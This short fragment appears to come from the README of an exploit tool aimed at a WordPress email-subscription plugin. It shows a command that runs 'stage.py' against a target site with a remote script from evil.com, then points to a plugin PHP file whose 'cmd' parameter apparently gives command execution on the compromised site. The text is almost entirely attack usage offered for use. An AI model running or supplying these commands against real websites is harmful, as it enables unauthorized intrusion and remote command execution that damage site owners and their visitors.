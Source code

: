 Example:

```
$ python stage.py --url http://target-wordpress-site.com -e http://evil.com/exploit.js -n name -a exploit@gmail.com
```

Then you can target
http://target-wordpress-site.com/wp-content/plugins/email-suscripcion/emailing-lista.php?cmd=
